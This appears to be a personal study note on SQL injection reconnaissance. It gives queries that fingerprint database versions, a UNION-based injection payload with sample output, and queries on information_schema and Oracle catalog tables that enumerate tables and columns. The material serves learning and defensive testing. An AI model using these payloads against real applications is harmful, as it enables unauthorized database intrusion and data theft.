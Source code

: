 
To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

The following are some queries to determine the database version for some popular database types:

|   |   |
|---|---|
|Database type|Query|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input:

`' UNION SELECT @@version--`

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

## Listing the contents of the database

you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

![[Pasted image 20240527133740.png]]

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

![[Pasted image 20240527133755.png]]

This output shows the columns in the specified table and the data type of each column.

### Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

- You can list tables by querying `all_tables`:
    
    `SELECT * FROM all_tables`
    
- You can list columns by querying `all_tab_columns`:
    
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`